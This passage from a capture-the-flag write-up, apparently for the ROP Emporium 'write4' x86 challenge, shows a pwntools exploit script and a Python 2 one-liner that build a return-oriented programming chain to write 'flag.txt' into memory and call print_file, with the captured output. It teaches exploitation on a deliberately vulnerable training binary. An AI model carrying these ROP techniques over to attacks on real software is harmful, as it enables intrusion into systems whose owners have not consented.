 ```
payload += mov_gadget
# POP the EDI and EBP again
payload += pop_gadget
# Place the address of the .data section into the EDI
# However, this time, point to the .data address + 4 bytes to not overwrite
# the existing "flag" string moved into it previously
payload += p32(data_addr + 0x4)
# Place the last 4 bytes of the "flag.txt" string into the EBP
payload += b".txt"
# Move the EBP into the EDI
payload += mov_gadget
# Call the print_file() function
payload += print_file
# Provide a 4 byte buffer between the function call and the argument
payload += b"B"*4
# Pass the address to the .data section (containing "flag.txt") as the argument
payload += p32(data_addr)

# Start connection (LOCAL, REMOTE, or GDB)
p = start()

p.sendlineafter(b"> ", payload)
p.interactive()

# Close connection
p.close()
```

Running the exploit script, I got the flag:

```
$ python3 exploit.py

Thank you!
ROPE{a_placeholder_32byte_flag!}
```

#### Python2 One-Line Exploit
`python2 -c 'print_file = "\xd0\x83\x04\x08"; pop_gadget = "\xaa\x85\x04\x08"; mov_gadget = "\x43\x85\x04\x08"; print "A"*44 + pop_gadget + "\x18\xa0\x04\x08" + "flag" + mov_gadget + pop_gadget + "\x1c\xa0\x04\x08" + ".txt" + mov_gadget + print_file + "B"*4 + "\x18\xa0\x04\x08"'`

Running this command and piping the output into the target binary, I got the flag:

```
$ python2 -c 'print_file = "\xd0\x83\x04\x08"; pop_gadget = "\xaa\x85\x04\x08"; mov_gadget = "\x43\x85\x04\x08"; print "A"*44 + pop_gadget + "\x18\xa0\x04\x08" + "flag" + mov_gadget + pop_gadget + "\x1c\xa0\x04\x08" + ".txt" + mov_gadget + print_file + "B"*4 + "\x18\xa0\x04\x08"' | ./write432

write4 by ROP Emporium
x86

Go ahead and give me the input already!

> Thank you!
ROPE{a_placeholder_32byte_flag!}
```
